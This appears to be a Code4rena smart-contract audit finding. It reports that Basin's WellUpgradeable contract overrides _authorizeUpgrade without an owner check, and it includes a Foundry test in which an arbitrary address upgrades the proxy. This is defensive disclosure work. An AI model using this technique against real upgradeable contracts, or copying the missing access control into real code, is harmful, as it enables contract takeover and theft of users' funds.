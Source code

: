 *Submitted by [zanderbyte](https://github.com/code-423n4/2024-07-basin-findings/issues/52), also found by Egis\_Security ([1](https://github.com/code-423n4/2024-07-basin-findings/issues/75), [2](https://github.com/code-423n4/2024-07-basin-findings/issues/23)), 0xSecuri ([1](https://github.com/code-423n4/2024-07-basin-findings/issues/69), [2](https://github.com/code-423n4/2024-07-basin-findings/issues/68)), [debo](https://github.com/code-423n4/2024-07-basin-findings/issues/66), Walter ([1](https://github.com/code-423n4/2024-07-basin-findings/issues/61), [2](https://github.com/code-423n4/2024-07-basin-findings/issues/60)), [unnamed](https://github.com/code-423n4/2024-07-basin-findings/issues/58), [mgf15](https://github.com/code-423n4/2024-07-basin-findings/issues/53), [Honour](https://github.com/code-423n4/2024-07-basin-findings/issues/46), [0x11singh99](https://github.com/code-423n4/2024-07-basin-findings/issues/35), [Flare](https://github.com/code-423n4/2024-07-basin-findings/issues/31), [ZanyBonzy](https://github.com/code-423n4/2024-07-basin-findings/issues/18), [shaflow2](https://github.com/code-423n4/2024-07-basin-findings/issues/3), [Mrxstrange](https://github.com/code-423n4/2024-07-basin-findings/issues/50), [NoOne](https://github.com/code-423n4/2024-07-basin-findings/issues/49), [John\_Femi](https://github.com/code-423n4/2024-07-basin-findings/issues/37), and [0xvd](https://github.com/code-423n4/2024-07-basin-findings/issues/92)*

`WellUpgradeable` is an upgradeable version of the `Well` contract, inheriting from OpenZeppelin's `UUPSUpgradeable` and `OwnableUpgradeable` contracts. According to OpenZeppelin’s documentation for `UUPSUpgradeable.sol` ([here](https://docs.openzeppelin.com/contracts/4.x/api/proxy#UUPSUpgradeable:\~:text=The%20\_authorizeUpgrade%20function%20must%20be%20overridden%20to%20include%20access%20restriction%20to%20the%20upgrade%20mechanism.) and [here](https://docs.openzeppelin.com/contracts/4.x/api/proxy#UUPSUpgradeable-\_authorizeUpgrade-address-)), the internal `_authorizeUpgrade` function must be overridden to include access restriction, typically using the `onlyOwner` modifier. This must be done to prevent unauthorized users from upgrading the contract to a potentially malicious implementation.

However, in the current implementation the `_authorizeUpgrade` function is overridden with custom logic but lacks the `onlyOwner` modifier. As a result, the `upgradeTo` and `upgradeToAndCall` methods can be invoked by any address, allowing anyone to upgrade the contract, leading to the deployment of malicious code and compromise the integrity of the contract.

### Proof of concept

The following test demonstrates that `WellUpgradeable` can be upgraded by any address, not just the owner. It is based on `testUpgradeToNewImplementation` with the difference that a new user address is created and used to call the `upgradeTo` function, successfully upgrading the contract and exposing the lack of access control.

Paste the following test into `WellUpgradeable.t.sol`:

```solidity
function testUpgradeToNewImplementationNotOwner() public {
        IERC20[] memory tokens = new IERC20[](2);
        tokens[0] = new MockToken("BEAN", "BEAN", 6);
        tokens[1] = new MockToken("WETH", "WETH", 18);
        Call memory wellFunction = Call(wellFunctionAddress, abi.encode("2"));
        Call[] memory pumps = new Call[](1);
        pumps[0] = Call(mockPumpAddress, abi.encode("2"));
        // create new mock Well Implementation:
        address wellImpl = address(new MockWellUpgradeable());
        WellUpgradeable well2 =
            encodeAndBoreWellUpgradeable(aquifer, wellImpl, tokens, wellFunction, pumps, bytes32(abi.encode("2")));
        vm.label(address(well2), "upgradeableWell2");
        
        address user = makeAddr("user");
        vm.startPrank(user);
        WellUpgradeable proxy = WellUpgradeable(payable(proxyAddress));
        proxy.upgradeTo(address(well2));

        // verify proxy was upgraded.
        assertEq(address(well2), MockWellUpgradeable(proxyAddress).getImplementation());
        vm.stopPrank();
    }
```
